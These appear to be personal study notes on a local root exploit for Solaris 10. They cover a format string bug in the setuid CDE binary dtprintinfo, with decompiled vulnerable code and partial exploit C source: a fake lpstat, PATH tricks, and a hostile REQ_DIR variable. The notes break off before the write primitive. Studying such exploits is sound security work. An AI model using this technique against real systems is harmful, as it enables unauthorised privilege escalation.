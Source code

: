 ```yaml
---
tags:
  - Article
---
```

- CDE is common desktop environment 
	- is still being distributed with the latest Solaris 10 version (at least till 2024)
- targets a format string bug in the `dtprintinfo setuid` binary distributed with CDE, in order to achieve local root privilege escalation on unpatched Solaris 10 systems
	- affects both Intel and SPARC architectures
	- this article focuses of SPARC
## The Bug
- the bug is in the `check_dir()` function
```
void __0FJcheck_dirPcTBPPP6QStatusLineStructPii(char *param_1, 
  undefined4 param_2, void **param_3, int *param_4, int param_5)
{
	...
  	char *pcVar3;
	...
  	char local_724 [300];
  	char local_5f8 [300];
	...
  	size_t local_c;
	...
  
  	pcVar3 = getenv("REQ_DIR");
  	if (pcVar3 == (char *)0x0) {
    		sprintf(local_724, "/usr/spool/lp/requests/%s/", param_2);
  	} else {
    		pcVar3 = getenv("REQ_DIR");
    		sprintf(local_724, pcVar3, param_2); /* VULN */
  	}
  	local_c = strlen(local_724);
  	sprintf(local_5f8, "/var/spool/lp/tmp/%s/", param_2);
	...
}
```
- bug is a stack-based buffer overflow and a format string bug
	- on the VULN line the value associated with the environment variable `REQ_DIR` is directly passed as the second parameter to `sprintf()`
	- by manipulating this variable a local attacker is easily able to control the format string used by `sprintf()`
	- a user-supplied format string in a `setuid` root program means bad things
- the other `sprintf()` related buffer also overflows
## The Exploit
### SPARC Stack Layout Woes
- stack-based buffer overflow
	- cant overwrite the saved return address of the current functuion
	- only able to overwrite the saved return address of the caller of the current function
	- in practice, means that the vulnerable program needs to survive an additional function before we can hijack %pc
	- difficult on the SPARC so exploit the format string bug instead
### Fake Printer Setup
- target is the CDE printer viewer
	- "The Print Viewer program provides a graphical interface that displays the status of print queues and print jobs. Additional information about print queues or print jobs can be retrieved within the interface, individual print queue labels and icons can be customised, and individual print jobs can be canceled."
- call tree
![[Screenshot 2025-09-29 at 13.38.58.png|400]]
- `check_dir()` gets called by the `LocalPrintJobs()` function. Used by `Queue::ProcessJobs()` to get the list of local print jobs
	- `LocalPrintJobs()` enters the directory specified by the `TMP_DIR` environment variable and calls the `check_dir()` function for each subdirectory that is present
```
/* open TMP_DIR */
pcVar4 = getenv("TMP_DIR");
if (pcVar4 == (char *)0x0) {
	chdir("/usr/spool/lp/tmp");
} else {
	pcVar4 = getenv("TMP_DIR");
	chdir(pcVar4);
}
__dirp = opendir(".");
...

/* check each subdirectory in TMP_DIR */
pdVar6 = readdir64(__dirp);
if (pdVar6 != (dirent64 *)0x0) {
	uVar2 = pdVar6->d_type;
	while (true) {
		__file = &pdVar6->d_type;
		if (((uVar2 != '.') && (iVar7 = stat64((char *)__file,
		  &sStack456), -1 < iVar7)) && ((sStack456.st_uid & 0x4000)
		    != 0)) {
       			chdir((char *)__file);
			__0FJcheck_dirPcTBPPP6QStatusLineStructPii(param_1,
			  __file, &DAT_00065db0, &local_4, DAT_00065db4);
         		chdir("..");
        	}
```
- to enter this path, wee must be able to double click on a configured printer in the `dtprintinfo` GUI, means 
	- we must have a valid X11 server that accepts connections from the remote vulnerable `dtprintinfo` program, so that we are able to interact with the GUI
	- a configured printer must be present in the GUI so that we can double click on it
- first bit of exploit
```c
int main(int argc, char **argv)
{
	...

	/* lpstat code to add a fake printer */
	if (!strcmp(argv[0], "lpstat")) {

		/* check command line */
		if (argc != 2)
			exit(1);

		/* print the expected output and exit */
		if(!strcmp(argv[1], "-v")) {
			fprintf(stderr, "lpstat called with -v\n");
			printf("device for fnord: /dev/null\n");
		} else {
			fprintf(stderr, "lpstat called with -d\n");
			printf("system default destination: fnord\n");
		}
		exit(0);
	}

	...
	add_env("PATH=.:/usr/bin");
	...

	/* create a symlink for the fake lpstat */
	unlink("lpstat");
	symlink(argv[0], "lpstat");
```
- code fakes the presence of a printer connected to the system by exploiting one of the venerable bugs 
	- allows local unprivileged users to trick `dtprintinfo` into believing that a printer is present by creating a fake `lpstat` program and manipulating the PATH environment variable
	- do not need to do this if your target system already has a configured printer
### Environment Setup
- parse command line arguments and setup the environment before running the vulnerable program 
```c
/* process command line */
	if (argc < 2) {
		fprintf(stderr, 
		  "usage:\n$ %s xserver:display [retloc]\n$ /bin/ksh\n\n",
		    argv[0]);
		exit(1);
	}
	sprintf(display, "DISPLAY=%s", argv[1]);
	if (argc > 2)
		retloc = (int)strtoul(argv[2], (char **)NULL, 0);

	/* evil env var: name + shellcode + padding */
	bzero(buf, sizeof(buf));
	memcpy(buf, "REQ_DIR=", strlen("REQ_DIR="));
	p += strlen("REQ_DIR=");

	/* padding buffer to avoid stack overflow */
	memset(buf2, 'B', sizeof(buf2));
	buf2[sizeof(buf2) - 1] = 0x0;

	/* fill the envp, keeping padding */
	add_env(buf2);
	add_env(buf);
	add_env(display);
	add_env("TMP_DIR=/tmp/just"); /* we must control this empty dir */
	add_env("PATH=.:/usr/bin");
	add_env("HOME=/tmp");
	add_env(NULL);
```
- note
	- as previously discussed, the `REQ_DIR` environment variable contains the hostile format string that triggers the bug
	- the `TMP_DIR` environment variable must point to a path in which we can create a directory
	- `buf2` buffer serves as padding so that `sprintf()` has enough memory space and doesn't crash trying to reach past the bottom of the stack while processing our hostile format string
### Write4 Primative
